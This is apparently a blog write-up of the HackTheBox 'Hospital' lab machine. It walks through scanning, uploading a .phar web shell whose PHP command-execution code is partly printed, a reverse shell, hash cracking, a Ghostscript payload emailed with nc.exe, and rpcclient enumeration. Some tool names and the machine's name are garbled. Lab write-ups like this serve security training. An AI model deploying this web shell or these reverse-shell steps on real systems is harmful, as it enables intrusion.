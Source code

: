 ```yaml
---
layout: post
title: "Hospital-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/box-hospital.png
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})
<br/><br/>
We can see 2 http services, go forward the one which allows create an account
<br/><br/>
Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
<br/><br/>
```php
<?php
$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);
function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}
function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}
function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}
function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```
<br/><br/>
We can search with gobuster to search routes 
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
We can use a rev shell and generate estability
<br/><br/>
Using uname -a we can see there is a vulnerable kernel version, download the exploit 
<br/><br/>
- We are root at data → cat /etc/passwd
<br/><br/>
```bash
john hash.txt rockyou.txt
```
<br/><br/>
We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability
<br/><br/>
Clone the repository and create the payload to injected 
<br/><br/>
1. We send a payload with nc.exe request by email
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})
<br/><br/>
1. Once it is on the victim machine we sent another payload with the rev shell
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
Start this part where you spawn, theres is a file called ghostscrip.bat lets type it
<br/><br/>
We found some rcpclient creds

<br/><br/>
### rcpclient
<br/><br/>
It has functions of authentication and enumeration of services, getting information about users
<br/><br/>
```bash
rcpclient -u "user" url 
querydispinfo
```
<br/><br/>
We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext
<br/><br/>
Machine pwned./!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
